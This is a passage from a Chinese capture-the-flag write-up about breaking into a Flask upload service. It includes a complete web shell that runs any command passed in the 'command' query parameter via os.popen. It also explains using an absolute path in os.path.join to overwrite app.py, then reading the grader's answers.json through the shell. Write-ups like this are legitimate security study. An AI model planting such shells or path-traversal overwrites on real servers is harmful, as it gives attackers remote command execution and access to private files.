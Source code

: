 当前目录存在app.py或wsgi.py时，`flask run`可以自动发现，无需指定启动文件名。那就好办了，直接上传一个py覆盖掉原来的。wsgi这个名字太不常见了，我们先试试app。

先写shell：

```python
from flask import Flask, request
import os

app = Flask(__name__)

@app.route('/run')
def run_command():
    user_command = request.args.get('command', '')
    result = os.popen(user_command).read()
    return result

if __name__ == '__main__':
    app.run(debug=True)
```

写好后直接启动BurpSuite，随便选一个文件，开始拦包点上传。

![](https://pic.imgdb.cn/item/672fa53cd29ded1a8cd0825d.png)

注意到`filepath = os.path.join(UPLOAD_DIR, filename)`。这玩意除了拼接文件路径还有个特性：若存在以`/`开头的路径，从最后一个以`/`开头的路径开始拼接，之前参数全部丢弃；我们把上传路径改为绝对路径，`os.path.join()`总是会返回我们的绝对路径。

> 本题的 flag 位于评分数据**原始 JSON 文件**的列表头部，将对应的数字加 65 后使用 ASCII 编码转换后即为 flag 文本。

查看题目逻辑，发现同目录下answers.json为评分数据。直接访问`/run?command=cat answers.json`获取：

![](https://pic.imgdb.cn/item/672fa687d29ded1a8cd16c22.png)

转换成ASCII：

```python
NUMBERS = [1,2,3,4]
# 可视ASCII码范围是32到126之间的值
VISIBLE_ASCII_RANGE = range(32, 127)

def convert_to_ascii(numbers):
    for number in numbers:
        ascii_value = number + 65
        if ascii_value in VISIBLE_ASCII_RANGE:
            print(chr(ascii_value), end='')
    print()  # 换行

convert_to_ascii(NUMBERS)
```

即可得到flag。

# 哈希三碰撞

## 三碰撞之一
